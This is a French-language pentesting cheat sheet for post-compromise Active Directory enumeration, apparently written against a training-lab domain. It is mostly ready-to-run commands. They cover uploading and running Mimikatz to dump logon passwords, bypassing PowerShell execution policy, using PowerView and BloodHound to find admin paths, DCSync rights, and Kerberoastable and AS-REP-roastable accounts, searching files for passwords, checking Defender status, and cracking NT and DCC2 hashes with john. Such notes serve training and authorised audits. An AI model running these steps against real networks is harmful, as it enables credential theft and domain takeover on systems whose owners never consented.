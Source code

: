 # Énumération Post-Compromission


```powershell
# Connexion à la machine cible avec Evil-WinRM
evil-winrm -i <CIBLE> -u <UTILISATEUR> -p <MOT_DE_PASSE>

#methode axel pour upload
cp /usr/share/windows-resources/mimikatz/x64/mimi* .
upload mimi*

# Upload de Mimikatz sur la machine cible
upload /chemin/local/vers/mimikatz.exe C:\Windows\Temp\mimikatz.exe

# Exécution de Mimikatz
C:\Windows\Temp\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Optionnel : Suppression de Mimikatz après utilisation
rm C:\Windows\Temp\mimikatz.exe
```
## Énumération Manuelle avec PowerView

### Installation et configuration
```powershell
# Importer PowerView
Import-Module .\PowerView.ps1

# Contourner la politique d'exécution si nécessaire
powershell -ep bypass
```
### Énumération du domaine
```powershell
# Informations sur le domaine
Get-Domain
Get-DomainController | select Name,IPAddress,Domain,Forest

# Politique de mot de passe
Get-DomainPolicy | select -ExpandProperty SystemAccess
```
### Énumération des utilisateurs et groupes
```powershell
# Utilisateurs
Get-DomainUser | select samaccountname,description,pwdlastset,lastlogon
Get-DomainUser -Properties * | Where-Object {$_.Description -ne ""} | select name,description

# Groupes privilégiés
Get-DomainGroupMember -Identity "Domain Admins" | select MemberName
Get-DomainGroupMember -Identity "Enterprise Admins" | select MemberName
Get-DomainGroupMember -Identity "Administrators" | select MemberName
```
### Droits d'administration locale
```powershell
# Trouver où l'utilisateur courant a des droits d'admin local
Find-LocalAdminAccess

# Rechercher les sessions utilisateur actives
Find-DomainUserLocation | select UserName,SessionFromName
```
## Énumération des ACLs
### Recherche d'ACLs intéressantes
```powershell
# Convertir nom d'utilisateur en SID
$sid = Convert-NameToSid "username"

# Rechercher tous les droits pour cet utilisateur
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}

# Avec résolution des GUIDs (plus lisible)
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```
### Identifier les droits spécifiques
```powershell
# Rechercher les droits DCSync
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get') }

# Rechercher ForceChangePassword
$guid = "00299570-246d-11d0-a768-00aa006e0529"
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {objectClass -like 'ControlAccessRight'} -Properties * | Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid}
```
## Collecte de données avec BloodHound
### Collecte avec SharpHound
```powershell
# Depuis PowerShell
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\username\Desktop\ -OutputPrefix "audit"

# Avec l'exécutable
.\SharpHound.exe -c All --ZipFileName audit.zip
```
### Collecte depuis Linux
```bash
# Avec bloodhound-python
bloodhound-python -d inlanefreight.local -u username -p password -c All -ns 172.16.5.5
```
### Analyse avec BloodHound
```bash
# Démarrer Neo4j
sudo neo4j start
# Démarrer BloodHound
bloodhound
```

Requêtes intéressantes à exécuter dans BloodHound:
- Trouver tous les plus courts chemins vers les Domain Admins
- Trouver les comptes kerberoastables
- Trouver les hôtes où Domain Users peut RDP
- Trouver les utilisateurs avec DCSync rights

## Recherche de Configurations Dangereuses

### Utilisateurs vulnérables aux attaques d'authentification

```powershell
# Utilisateurs Kerberoastables (avec SPN)
Get-DomainUser -SPN | select samaccountname,serviceprincipalname

# Utilisateurs AS-REP Roastables
Get-DomainUser -PreauthNotRequired | select samaccountname
```

### Identification de délégations dangereuses

```powershell
# Délégation contrainte
Get-DomainComputer -TrustedToAuth | select name,msds-allowedtodelegateto

# Délégation non contrainte
Get-DomainComputer -Unconstrained | select name
```

### Recherche de fichiers sensibles

```powershell
# Recherche de mots de passe dans les fichiers
findstr /si password *.txt *.ini *.config *.xml

# Chercher dans les fichiers de scripts
Get-ChildItem -Path C:\Users\* -Include *.ps1,*.bat,*.cmd -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password"
```

## Utilisation d'outils supplémentaires

### Snaffler (pour trouver des credentials)

```powershell
# Lancer Snaffler
.\Snaffler.exe -s -d inlanefreight.local -o snaffler.log -v data
```

### Enumération des défenses de sécurité

```powershell
# Vérifier l'état de Windows Defender
Get-MpComputerStatus | Select RealTimeProtectionEnabled,AntivirusEnabled

# Vérifier les pare-feu
Get-NetFirewallProfile | Select Name,Enabled
```

### Cracking hashes
```bash
#secretsdump SAM:
#`Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::`
john hashsam --wordlist=/usr/share/wordlists/rockyou.txt --format=NT

#secretsdump DCC2
#user:1000:53b4eacd4a42f758e69a6bbf7d5dc38d
john hashdcc2 --wordlist=/usr/share/wordlists/rockyou.txt
```

## Points Clés à Documenter

- Utilisateurs et groupes privilégiés
- ACLs potentiellement exploitables
- Chemins d'attaque identifiés par BloodHound
- Comptes vulnérables aux attaques d'authentification
- Configurations de délégation dangereuses
- Traces de mots de passe et credentials